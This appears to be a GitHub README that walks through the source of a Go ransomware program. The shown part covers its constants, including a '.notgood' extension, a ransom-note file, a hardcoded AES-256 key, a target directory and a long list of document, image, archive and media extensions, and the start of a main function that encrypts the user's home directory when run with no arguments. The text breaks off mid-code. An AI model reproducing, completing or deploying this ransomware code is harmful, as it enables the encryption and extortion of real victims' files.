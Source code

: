 ```malware.exe```

## Code Walkthrough

- ### 1. Constants and Variables
- **Constants:**

  - `encryptedExtension` specifies the extension that will be appended to files after they are encrypted. For example, if a file named `document.txt` is encrypted, it will be renamed to `document.txt.notgood`.

  ```go
  const encryptedExtension = ".notgood"
  ```
  - `decryptionInfoFile` is the name of the file that will be created to store the decryption key and instructions. This file is saved on the desktop.
  ```go
  const decryptionInfoFile = "decryption_key.txt"
  ```
  - `filePermission` is set to `0o644`, which means that the file is readable and writable by the owner, and readable by others.

  ```go
  const filePermission = 0o644
  ```
- **Variables:**

  - `rootDir` defines the directory where the encryption process will start. By default, it's set to `"C:\\Users\\user\\Desktop"`. You can change this path to target a different directory.

  ```go
  var rootDir = "C:\\Users\\user\\Desktop" // Change this to the directory you want to encrypt
  ```
  - `encryptionKey` is a hardcoded key used for AES encryption. It’s a 32-byte key, which is suitable for AES-256 encryption.
  ```go
  var encryptionKey = []byte("abcdefghijklmnopqrstuvwxyz012345")
  ```
  - `extensionsToEncrypt` is a list of file extensions that the program will target for encryption. For example, files with `.txt`, `.pdf`, and `.jpg` extensions will be encrypted.
  ```go
  var extensionsToEncrypt = []string{
      ".txt", ".doc", ".docx", ".pdf", ".rtf",
      ".xlsx", ".xls", ".csv", ".ppt", ".pptx",
      ".mdb", ".accdb", ".jpg", ".jpeg", ".png",
      ".gif", ".bmp", ".zip", ".rar", ".7z",
      ".tar", ".gz", ".tgz", ".mp3", ".wav",
      ".mp4", ".avi", ".mkv", ".mov", ".wmv",
  }
  ```
### 2. Main Function:
The `main` function directs the program based on the command-line arguments provided:

  - **No Arguments:** When the program is executed without any arguments, it initiates the encryption process.
    ```go
    case len(os.Args) == 1:
        userHomeDir, err := os.UserHomeDir()
        if err != nil {
            fmt.Println("Error getting user home directory:", err)
            return
        }
        if !strings.Contains(userHomeDir, "user") {
            rootDir = userHomeDir
        }
        fmt.Println("Encrypting files in", rootDir)
        fmt.Println("This might take some time...")
